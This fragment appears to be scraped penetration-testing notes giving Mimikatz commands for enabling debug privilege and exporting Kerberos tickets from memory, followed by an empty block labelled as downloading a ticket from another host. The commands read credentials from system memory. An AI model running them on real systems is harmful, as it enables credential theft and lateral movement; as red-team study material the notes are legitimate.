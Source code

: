 debug on
```
privilege::debug
```

export ticket
```
sekurlsa::tickets /export
```

download ticket from file02
```

```